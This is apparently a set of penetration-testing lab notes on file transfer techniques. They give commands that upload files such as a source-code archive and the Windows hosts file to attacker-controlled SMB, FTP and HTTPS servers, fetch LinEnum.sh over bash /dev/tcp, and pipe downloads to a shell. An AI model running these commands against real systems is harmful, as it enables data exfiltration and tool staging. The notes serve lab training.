 ```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

- using FTP

```shell-session
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell-session
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```



# Linux File Transfers

### Download
- base64 encode file content -> copy => paste =>base64 decode get file content 
- using wget , curl 
- fileless upload `|sh`

- Download using Bash

```shell-session
exec 3<>/dev/tcp/10.10.10.32/80
```

```shell-session
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

```shell-session
cat <&3
```


- using SCP
```shell-session
scp plaintext@192.168.49.128:/root/myroot.txt . 
```



### Download

- using upload server

create certificate
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

```shell-session
 python3 -m uploadserver 1111 --server-certificate ~/server.pem
```
upload
```shell-session
curl -X POST https://10.10.14.24:1111/upload -F 'files=@/home/junior/a.pdf' --insecure
```
